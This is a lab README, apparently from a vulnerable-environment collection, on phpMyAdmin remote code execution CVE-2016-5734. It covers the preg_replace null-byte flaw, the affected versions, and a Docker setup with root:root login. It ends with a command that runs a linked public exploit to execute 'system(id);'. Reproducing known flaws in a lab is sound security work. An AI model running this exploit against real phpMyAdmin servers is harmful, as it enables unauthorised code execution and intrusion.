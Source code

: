 # PhpMyAdmin 4.0.x—4.6.2 Remote Code Execution Vulnerability (CVE-2016-5734)

[中文版本(Chinese version)](README.zh-cn.md)

PhpMyAdmin is a free software tool written in PHP, intended to handle the administration of MySQL over the Web. The vulnerability is in the `preg_replace` function, because the information submitted by the user can be spliced into the first parameter.

Before PHP 5.4.7, the first parameter of `preg_replace` could be truncated with `\0` and the change search pattern to `\e`. It can cause remote code execution vulnerability.

Affected versions:

- 4.0.x version before 4.0.10.16
- 4.4.x version before 4.4.15.7
- 4.6.x version before 4.6.3 (actually because this version requires PHP5.5+, this vulnerability cannot be reproduced)

## Setup

Execute following commands to start PHP 5.3 + Apache + phpMyAdmin 4.4.15.6:

```
docker-compose up -d 
```

After start, visit `http://your-ip:8080` and you will see the login page of phpMyAdmin. Log in with `root`:`root`.

## Exploit

This vulnerability requires login and the permission to write data.

We use this POC(https://www.exploit-db.com/exploits/40185/) to reproduce the vulnerability.

```
./cve-2016-5734.py -c 'system(id);' -u root -p root -d test http://your-ip:8080/
```

Result:

![](1.png)
